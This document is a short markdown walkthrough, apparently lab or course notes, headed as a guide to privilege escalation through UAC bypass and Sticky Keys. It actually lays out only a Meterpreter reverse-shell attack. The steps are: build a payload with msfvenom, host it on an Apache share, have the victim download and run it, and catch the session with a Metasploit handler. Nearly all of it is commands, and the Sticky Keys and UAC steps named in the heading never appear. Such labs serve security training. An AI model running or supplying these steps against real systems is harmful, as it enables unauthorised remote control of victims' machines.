 
#### Escalate Privileges by Bypassing UAC and Exploiting Sticky Keys

- Sticky keys, a Windows accessibility feature, can be exploited to gain unauthenticated, privileged access to a machine.

##### Steps

- Generate Payload:
  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.13 LPORT=444 -f exe > Windows.exe
  ```

- Prepare Shared Folder:
  - Create a shared folder:
    ```bash
    mkdir /var/www/html/share
    ```
  - Set permissions:
    ```bash
    chmod -R 755 /var/www/html/share
    chown -R www-data:www-data /var/www/html/share
    ```

- Copy Payload to Shared Folder:
  ```bash
  cp Windows.exe /var/www/html/share/
  ```

- Start Apache Server:
  ```bash
  service apache2 start
  ```

- Launch Metasploit Framework:
  ```bash
  msfconsole
  ```

- Metasploit Configuration:
  ```bash
  use exploit/multi/handler
  set payload windows/meterpreter/reverse_tcp
  set LHOST 10.10.1.13
  set LPORT 444
  run
  ```

- Access Shared Folder from Victim machine:
  - Open a web browser and navigate to http://10.10.1.13/share
  - Download and run Windows.exe

- Metasploit Commands:
  - Observe the meterpreter connection
  - Execute commands:
    ```bash
    sysinfo
    getuid
    ```
